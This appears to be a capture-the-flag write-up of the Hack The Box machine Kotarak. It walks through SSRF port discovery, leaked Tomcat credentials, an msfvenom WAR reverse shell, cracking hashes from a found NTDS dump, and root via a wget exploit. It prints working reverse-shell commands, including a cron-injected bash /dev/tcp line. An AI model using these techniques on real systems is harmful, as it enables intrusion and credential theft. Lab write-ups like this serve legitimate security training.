 # HTB - Kotarak

#### Ip: 10.10.10.55
#### Name: Kotarak
#### Difficulty: Hard

----------------------------------------------------------------------

![Kotarak.png](../assets/kotarak_assets/Kotarak.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.55 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 10:20 CDT
Nmap scan report for 10.10.10.55
Host is up (0.073s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5 - Error report
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.93 seconds
```

The Kotarak Web Hosting on port 60000 seems linteresting, lets check that out first:

![site.png](../assets/kotarak_assets/site.png)

Trying to enter www.hackthebox.com in the search box fowrards us to: http://10.10.10.55:60000/url.php?path=www.hackthebox.com%2F

But if we search for 10.10.10.55:22 we get the message `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch. ` So it does seem that the search feature is able to query ports on its localhost address. Lets see if there are any other ports open internally.

We can do this by fuzzing the site with a list of ports that may be open on localhost. I'll use wfuzz for this:

![fuzz.png](../assets/kotarak_assets/fuzz.png)

Nice, looks like we have a few more ports to investigate now. After poking around a bit I found some interesting materials at http://10.10.10.55:60000/url.php?path=127.0.0.1%3A888

![888.png](../assets/kotarak_assets/888.png)

Now if we input http://127.0.0.1:888/?doc=backup into the search on port 60000 and inspect the page source we find credentials for the Tomcat service running on port 8080:

![creds.png](../assets/kotarak_assets/creds.png)

Based on past experience with Tomcat I know the login can be found at 10.10.10.55:8080/manager/html

![login.png](../assets/kotarak_assets/login.png)

These credentials work and we can now authenticate to the site:

![tomcat.png](../assets/kotarak_assets/tomcat.png)

### Exploitation

From here lets generate a .war reverse shell file to upload to the server:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=443 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

We can upload the file and verify it loaded correctly:

![file.png](../assets/kotarak_assets/file.png)

Then with a NetCat listener listening, we can simply click on our shell file and catch the reverse shell back in NetCat:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.55] 35576
whoami
tomcat
hostname
kotarak-dmz
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$
```

Trying to grab the user.txt flag from user atanas' home directory, we get a permission denied:

```text
tomcat@kotarak-dmz:/home$ ls
atanas	tomcat
tomcat@kotarak-dmz:/home$ cd atanas
tomcat@kotarak-dmz:/home/atanas$ ls
user.txt
tomcat@kotarak-dmz:/home/atanas$ cat user.txt
cat: user.txt: Permission denied
```

Looking around more we find an interesting directory called `pentest_data` which contain .dit and registry files:

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets copy these back to our attacking machine.

First we'll set up a Python server on the target and then use wget on our attacking machine to retrieve the files:

![wget.png](../assets/kotarak_assets/wget.png)

Now lets use impacket-secretsdump to extract some hashes

![dump.png](../assets/kotarak_assets/dump.png)

Nice, we've found a few. Lets grab the Administrator and the atanas hash and crack them in CrackStation:

![crack.png](../assets/kotarak_assets/crack.png)

Cool, that worked. Lets try to `su atanas` on the target:

```text
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
su: Authentication failure
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
atanas@kotarak-dmz:~$ whoami
atanas
```
Interestingly, the atanas password didn't work here, but the admin password did.

We can now grab the user.txt flag:

![user_flag.png](../assets/kotarak_assets/user_flag.png)

### Privilege Escalation

Looking around the machine and not seeing much, I noticed we have read access to some files in the root directory. 

```text
atanas@kotarak-dmz:/root$ ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
```

Interesting, it appears IP address 10.0.3.33 is using wget to try and access a file every 2 minutes. This must be running as a cronjob.  

Looking at exploits for this version of wget we find: https://www.exploit-db.com/exploits/40064

First we'll need to upadte the wget-exploit.py portion of the script to:

```text
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.48/8888 0>&1' \n"
```

Next we'll want to get another working shell on the target (I just ran the .war file again with another listener set up).

Now lets start an ftpserver on the target:

```text
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w
```

From here lets set up a python HTTP server on our attacking machine and use wget to grab the exploit onto the target machine, and then use authbind to run it:

```text
atanas@kotarak-dmz:/tmp/...$ wget 10.10.14.48/wget-exploit.py
--2023-09-05 14:58:28--  http://10.10.14.48/wget-exploit.py
Connecting to 10.10.14.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2906 (2.8K) [text/x-python]
Saving to: ‘wget-exploit.py’

wget-exploit.py       0%[                    ]       0  --.-Kwget-exploit.py     100%[===================>]   2.84K  --.-KB/s    in 0s      

2023-09-05 14:58:29 (269 MB/s) - ‘wget-exploit.py’ saved [2906/2906]

atanas@kotarak-dmz:/tmp/...$ authbind python wget-exploit.py
```

With a listener set up on port 8888, we will eventually catch a shell back as the root user, and we can grab the final flag:

![root_flag.png](../assets/kotarak_assets/root_flag.png)

Thanks for following along!

-Ryan

